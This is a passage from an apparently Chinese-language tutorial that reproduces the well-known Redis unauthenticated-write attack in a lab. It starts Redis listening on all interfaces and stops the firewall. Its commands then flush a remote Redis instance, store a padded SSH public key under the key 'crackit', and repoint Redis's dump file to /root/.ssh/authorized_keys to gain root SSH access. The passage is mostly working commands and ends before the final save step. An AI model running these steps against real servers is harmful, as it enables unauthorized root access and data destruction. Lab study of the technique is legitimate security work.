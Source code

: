 ```
cd redis-3.0
make
```

3、运行 redis 服务器，不出意外，redis 服务器就启动起来了。

```
cd src
./redis-server
```

执行 netstat

```
sudo netstat -ltpn | grep 6379
```



![img](%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3TCP%E5%8D%8F%E8%AE%AE.assets/16b9134c20789333)

可以看到 redis 服务器默认监听 0.0.0.0:6379，表示允许任意来源的连接 6379 端口，可以在另外一台机器使用 telnet 或者 nc 访问此端口，如果成功连接，可以输入 ping 看是否返回 pong。



```
nc c4 6379
ping
+PONG
```

注意 Centos7 上默认启用了防火墙，会禁止访问某些端口，可以下面的方式禁用。

```
sudo systemctl stop firewalld.service
```

4、客户端使用 ssh-keygen 生成公钥，不停按 enter，不出意外马上在`~/.ssh`生成了目录生成了公私钥文件

```
ssh-keygen

ll ~/.ssh
ya@c2 ~$ ll .ssh
-rw-------. 1 ya ya 1.7K 4月  14 03:00 id_rsa
-rw-r--r--. 1 ya ya  387 4月  14 03:00 id_rsa.pub
```

5、将客户端公钥写入到文件 foo.txt 中以便后面写入到 redis，其实是生成一个头尾都包含两个空行的公钥文件

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
```

6、先清空 Redis 存储所有的内容，将 foo.txt 文件内容写入到某个 key 中，这里为 crackit，随后调用 redis-cli 登录 redis 调用 config 命令设置文件 redis 的 dir 目录和把 rdb 文件的名字dbfilename 设置为 authorized_keys。

```
redis-cli -h 10.211.55.12 echo flushall
cat foo.txt | redis-cli -h 10.211.55.12 -x set crackit

// 登录 Redis
redis-cli -h 10.211.55.12

config set dir /root/.ssh

config set dbfilename "authorized_keys"
```
